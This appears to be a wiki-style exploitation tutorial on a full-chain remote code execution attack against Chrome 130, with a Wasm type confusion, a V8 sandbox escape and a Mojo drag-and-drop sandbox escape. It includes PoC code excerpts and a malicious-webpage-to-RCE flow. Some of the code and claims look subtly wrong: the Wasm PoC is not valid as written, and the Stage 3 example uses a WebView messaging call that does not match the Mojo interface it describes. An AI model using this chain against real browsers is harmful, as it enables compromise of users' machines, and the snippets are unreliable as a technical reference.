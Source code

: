 # Chrome Exploiting

> This page provides a high-level yet **practical** overview of a modern "full-chain" exploitation workflow against Google Chrome 130 based on the research series **“101 Chrome Exploitation”** (Part-0 — Preface).  
> The goal is to give pentesters and exploit-developers the minimum background necessary to reproduce or adapt the techniques for their own research.

## 1. Chrome Architecture Recap  
Understanding the attack surface requires knowing where code is executed and which sandboxes apply.

```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```

Layered defence-in-depth:

* **V8 sandbox** (Isolate): memory permissions are restricted to prevent arbitrary read/write from JITed JS / Wasm.
* **Renderer ↔ Browser split** ensured via **Mojo/IPC** message passing; the renderer has *no* native FS/network access.
* **OS sandboxes** further contain each process (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profiles).

A *remote* attacker therefore needs **three** successive primitives:

1. Memory corruption inside V8 to get **arbitrary RW inside the V8 heap**.
2. A second bug allowing the attacker to **escape the V8 sandbox to full renderer memory**.
3. A final sandbox-escape (often logic rather than memory corruption) to execute code **outside of the Chrome OS sandbox**.

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

A flaw in TurboFan’s **Turboshaft** optimisation mis-classifies **WasmGC reference types** when the value is produced and consumed inside a *single basic block loop*.

Effect:
* The compiler **skips the type-check**, treating a *reference* (`externref/anyref`) as an *int64*.
* Crafted Wasm allows overlapping a JS object header with attacker-controlled data → `addrOf()` & `fakeObj()` **AAW / AAR primitives**.

Minimal PoC (excerpt):

```WebAssembly
(module
  (type $t0 (func (param externref) (result externref)))
  (func $f (param $p externref) (result externref)
    (local $l externref)
    block $exit
      loop $loop
        local.get $p      ;; value with real ref-type
        ;; compiler incorrectly re-uses it as int64 in the same block
        br_if $exit       ;; exit condition keeps us single-block
        br   $loop
      end
    end)
  (export "f" (func $f)))
```

Trigger optimisation & spray objects from JS:

```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```

Outcome: **arbitrary read/write within V8**.

---

## 3. Stage 2 – Escaping the V8 Sandbox (issue 379140430)

When a Wasm function is tier-up-compiled, a **JS ↔ Wasm wrapper** is generated.  A signature-mismatch bug causes the wrapper to write past the end of a trusted **`Tuple2`** object when the Wasm function is re-optimised *while still on the stack*.

Overwriting the 2 × 64-bit fields of the `Tuple2` object yields **read/write on any address inside the Renderer process**, effectively bypassing the V8 sandbox.

Key steps in exploit:
1. Get function into **Tier-Up** state by alternating turbofan/baseline code.
2. Trigger tier-up while keeping a reference on the stack (`Function.prototype.apply`).
3. Use Stage-1 AAR/AAW to find & corrupt the adjacent `Tuple2`.

Wrapper identification:

```js
function wrapperGen(arg) {
  return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```

After corruption we possess a fully-featured **renderer R/W primitive**.

---

## 4. Stage 3 – Renderer → OS Sandbox Escape (CVE-2024-11114)

The **Mojo** IPC interface `blink.mojom.DragService.startDragging()` can be called from the Renderer with *partially trusted* parameters.  By crafting a `DragData` structure pointing to an **arbitrary file path** the renderer convinces the browser to perform a *native* drag-and-drop **outside the renderer sandbox**.

Abusing this we can programmatically “drag” a malicious EXE (previously dropped in a world-writable location) onto the Desktop, where Windows automatically executes certain file-types once dropped.

Example (simplified):

```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
  type: "DragStart",
  data: {
    title: "MyFile",
    file_path: payloadPath,
    mime_type: "application/x-msdownload"
  }
});
```

No additional memory corruption is necessary – the **logic flaw** gives us arbitrary file execution with the user’s privileges.

---

## 5. Full Chain Flow

1. **User visits** malicious webpage.
2. **Stage 1**: Wasm module abuses CVE-2025-0291 → V8 heap AAR/AAW.
3. **Stage 2**: Wrapper mismatch corrupts `Tuple2` → escape V8 sandbox.
4. **Stage 3**: `startDragging()` IPC → escape OS sandbox & execute payload.

Result: **Remote Code Execution (RCE)** on the host (Chrome 130, Windows/Linux/macOS).

---

## 6. Lab & Debugging Setup

```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```

Useful flags when launching a *development* build of Chrome:

```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```

---

## Takeaways

* **WebAssembly JIT bugs** remain a reliable entry-point – the type system is still young.
* Obtaining a second memory-corruption bug inside V8 (e.g. wrapper mismatch) greatly simplifies **V8-sandbox escape**.
* Logic-level weaknesses in privileged Mojo IPC interfaces are often sufficient for a **final sandbox escape** – keep an eye on *non-memory* bugs.

## References
* [101 Chrome Exploitation — Part 0 (Preface)](https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/)
* [Chromium security architecture](https://chromium.org/developers/design-documents/security)

